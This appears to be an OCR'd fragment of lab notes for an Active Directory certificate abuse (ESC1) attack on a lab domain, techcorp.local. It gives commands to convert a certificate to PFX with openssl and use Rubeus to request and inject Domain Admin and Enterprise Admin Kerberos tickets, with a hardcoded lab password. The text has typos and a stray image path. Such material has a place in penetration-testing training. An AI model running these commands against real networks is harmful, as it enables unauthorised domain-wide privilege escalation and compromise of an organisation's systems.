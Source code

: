 copy key/cert from outpu to file cert.pem and Convert  cert.pem to pfx
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx

rubues asktgt /user:Administrator /certificate:path\da.pfx /password:youSpecified /nowrap /ptt

Request Enterprise Admin TGT an inject
C:\AD\Tools\Rubeus.exe asktgt /user:techcorp.local\Administrator
/dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx
/password:SecretPass@123 /nowrap /ptt
</code></pre>









*
